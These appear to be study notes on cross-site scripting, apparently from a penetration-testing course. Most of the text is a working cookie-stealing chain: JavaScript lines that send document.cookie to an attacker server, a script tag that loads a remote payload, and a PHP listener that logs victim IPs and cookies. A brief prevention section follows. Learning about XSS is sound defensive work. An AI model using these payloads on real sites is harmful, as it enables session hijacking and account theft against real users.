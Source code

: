 ```javascript
document.location='http://our-server-ip/index.php?c='+document.cookie;
new Image().src='http://our-server-ip/index.php?c='+document.cookie;
```

- change the URL in the XSS payload we found earlier to use script.js
```html
<script src=http://our-server-ip/script.js></script>
```

- for better receiving and storing the cookie data
- save it as `index.php`
```php
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>
```

# XSS Prevention

- XSS vulnerabilities are mainly linked to two parts of the web app
	- Source : like a user input field
	- Sink : displays the input data
- important aspect of preventing XSS vulns is proper input sanitization and validation on both the front and back end
